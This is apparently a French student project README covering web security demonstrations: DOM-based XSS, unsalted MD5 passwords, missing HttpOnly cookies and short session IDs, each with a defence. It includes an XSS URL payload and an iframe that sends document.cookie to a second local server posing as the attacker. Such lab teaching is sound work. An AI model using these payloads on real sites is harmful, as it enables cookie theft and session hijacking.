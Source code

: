 # was-grp11
Groupe 11 (Youssra IBRAHIMI, Io ALFANO, Assia HAFID)
  
## DOM Based XSS  
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
On peut créer un bouton de la manière suivante http://localhost:8080/dom_xss_1/atk_dom_xss_1.html?button=My%20custom%20button <br/>
**Attaque :** <br/>
Aller sur la page http://localhost:8080/dom_xss_1/atk_dom_xss_1.html?button=<script>alert(document.cookie)</script> <br/>
Cela va générer une alerte avec le cookie. Le serveur va générer un objet DOM sans vérifier si le code contient un script malveillant. <br/>
**Defense :**<br/>
Pour contrer ce type d’attaque il faut utiliser un outil pour nettoyer le code avant de l’ajouter au DOM. Nous avons utilisé DOMPurify. <br/>
Quand du code JavaScript est repéré, il est supprimé avant d'être ajouté dans le DOM.<br/>
<br/>
## Password Salting
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
Initilisaliser la base de données en faisant `sudo mysql < init_db_password.sql`.<br/>
La page HTML permet de s’authentifier sur le compte de l’administrateur. Le serveur va récupérer le mot de passe de l’administrateur qui vaut MD5(‘admin123’) et va le comparer au mot de passe à tester sur lequel la fonction MD5 a été appliquée.<br/>
De cette manière un attaquant peut facilement retrouver le mot de passe grâce à des rainbow tables.<br/>
**Attaque :** <br/>
http://localhost:8080/atk_password.php?password=admin123<br/>
**Defense :**<br/>
Pour générer un nouveau mot de passe nous avons utilisé le code suivant :<br/>
`$salt = bin2hex(openssl_random_pseudo_bytes(22));`<br/>
`$hash = crypt($_GET['password'], "$2a$12$".$salt);`<br/>
De cette manière un salt est généré aléatoirement pour chaque mot de passe et l’utilisation de rainbow tables devient plus compliqué.<br/>
<br/>
## Session HttpOnly
Il faut lancer un serveur sur le port de votre choix (8080) dans le dossier *was-grp11/* et un autre sur le port 8089 (vous pouvez en choisir un autre mais il faut modifier le fichier vulnérable) dans le dossier *bad_session/*.<br/>
HttpOnly est un attribut des cookies qui permet d’indiquer aux navigateurs de ne pas laisser des scripts avoir accès aux cookies depuis le DOM. Le site vulnérable n’implémente pas HttpOnly.<br/>
**Attaque :**<br/>
L’attaquant a déposé un lien permettant d’envoyer une requête contenant les cookies sur un site malveillant. HttpOnly est désactivé.<br/>
`<iframe src="javascript:document.location='http://localhost:8089/bad_session_httponly.php?cookie='+document.cookie"></iframe>`<br/>
http://localhost:8080/session/vulnerable_session_httponly.php <br/>
**Defense :**<br/>
Pour protéger ce site de ce genre d’attaque, il faut préciser aux navigateurs d’utiliser HttpOnly. De cette manière, un attaquant ne pourra pas récupérer des données contenues dans les cookies.<br/>
![image](https://user-images.githubusercontent.com/54988405/137313105-bded2987-aeda-411d-84d9-6041ad80afa8.png)
<br/>
## Session ID Length
**Attaque :**<br/>
Le site vulnérable créé un cookie en faisant un hachage d'une longueur de 64 bits. Pour exploiter la vulnérabilité il faut utiliser des rainbows tables composé de hachage et trouver le bon mot de passe qui génère le bon hachage.<br/>
**Defense :**<br/>
Pour améliorer la défense du site il faut augmenter la taille du session ID. Elle doit être de 128 bits minimum. Le nouveau site génère les session ID avec des hachages de 128 bits.<br/>
